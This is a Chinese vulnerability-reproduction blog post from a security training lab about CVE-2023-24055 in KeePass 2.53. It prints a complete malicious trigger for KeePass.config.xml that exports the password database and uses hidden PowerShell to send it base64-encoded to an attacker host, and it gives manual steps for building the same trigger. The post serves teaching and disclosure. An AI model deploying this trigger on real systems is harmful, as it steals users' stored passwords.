










# KeePass 敏感信息明文传输漏洞复现 （CVE-2023-24055） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17137993.html`](https://www.cnblogs.com/hetianlab/p/17137993.html)

## 一、漏洞描述

### 漏洞简述

KeePass 是一款免费的开源密码管理器，可帮助您以安全的方式管理您的密码。您可以将所有密码存储在一个数据库中，该数据库由一把万能钥匙锁定。因此，您只需记住一个主密钥即可解锁整个数据库。数据库文件使用目前已知的最佳和最安全的加密算法（AES-256、ChaCha20 和 Twofish）进行加密。

对 KeePass 配置文件具有写入权限的攻击者可以修改它并注入恶意触发器，例如通过添加导出触发器来获取明文密码。

### 漏洞影响范围

**供应商**：KeePass

**产品**：KeePass Password Safe 2

**确认受影响版本**：KeePass 2.53 版本

**修复版本**：KeePass 2.53.1 版本

## 二、漏洞复现实战

### 环境搭建

#### Step 1 KeePass 2.53



下载地址：[`keepass.info/`](https://keepass.info/)

#### Step 2 KeePass 翻译语言包

下载地址：[`keepass.info/translations.html`](https://keepass.info/translations.html)

将语言包文件复制至安装路径下“Languages”文件夹下


在 KeePass 中进入语言设置，切换语言



### 漏洞复现

根据原理,在安装路径下的配置文件 KeePass.config.xml，根据触发器功能的安全缺陷进行利用。

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

创建一个触发器，在密码数据库存在交互时进行明文传输。触发器创建主要细分为两种方式：

**（1）POC 写入配置文件**

将编写好的 POC 代码写入 KeePass.config.xml，须符合触发器 XML 格式。

其中`<Parameter>c:\Users\???\AppData\Local\Temp\exploit.xml</Parameter>`字段为明文传输路径。

利用 powershell 以 GET 方式传输数据库中密码文件。

**POC**：

```
 <TriggerSystem> 
    <Triggers>
                <Trigger>
                    <Guid>lztpSRd56EuYtwwqntH7TQ==</Guid>
                    <Name>exploit</Name>
                    <Events>
                        <Event>
                            <TypeGuid>s6j9/ngTSmqcXdW6hDqbjg==</TypeGuid>
                            <Parameters>
                                <Parameter>0</Parameter>
                                <Parameter />
                            </Parameters>
                        </Event>
                    </Events>
                    <Conditions />
                    <Actions>
                        <Action>
                            <TypeGuid>D5prW87VRr65NO2xP5RIIg==</TypeGuid>
                            <Parameters>
                                <Parameter>c:\Users\???\AppData\Local\Temp\exploit.xml</Parameter>
                                <Parameter>KeePass XML (2.x)</Parameter>
                                <Parameter />
                                <Parameter />
                            </Parameters>
                        </Action>
                        <Action>
                            <TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
                            <Parameters>
                                <Parameter>PowerShell.exe</Parameter>
                                <Parameter>-ex bypass -noprofile -c $var=([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\Users\???\AppData\Local\Temp\exploit.xml')));Invoke-WebRequest -uri http://192.168.XXX.XXX:8888/$var -Method GET </Parameter>
                                <Parameter>False</Parameter>
                                <Parameter>1</Parameter>
                                <Parameter />
                            </Parameters>
                        </Action>
                    </Actions>
                </Trigger>
            </Triggers>         
            </TriggerSystem>
```



保存 KeePass.config.xml 文件，触发器功能查看 exploit 触发器

**（2）通过触发器功能手工创建触发器**

以官方触发器构成为参考

[`keepass.info/help/kb/trigger_examples.html`](https://keepass.info/help/kb/trigger_examples.html)

exploit 触发器配置如下：

**属性项**：命名为 exploit，其余默认配置



**事件项**：选择 Saved database file（已保存数据库文件），判断条件选 Equals（相等）



**条件项**：为空



**操作项**：

1.  导出当前数据库

文件路径为上述文件传输路径

文件格式选择 KeePass XML (2.x)

1.  执行命令行/URL

文件路径为 PowerShell.exe ，使触发器执行 PowerShell

参数选择攻击接收的路径

窗口方式选择 Hidden



完成创建，可以看到 exploit 触发器

在攻击机 创建 web 服务，后续接收传输后的密码明文；

在 KeePass 中新建一条密码记录并保存，可以看到攻击机终端已接收到明文信息





进行 base64 解码，可以看到内容为密码记录内容，包含账号与密码等敏感信息。



### 漏洞修复

建议更新至 KeePass 2.53.1 版本

## 结束语

本文主要介绍了 CVE-2023-24055 KeePass 敏感信息明文传输漏洞的复现过程，漏洞主要利用对 KeePass 配置文件在写入权限下可以修改它并注入恶意触发器，例如通过添加导出触发器来获取明文密码。

**更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)**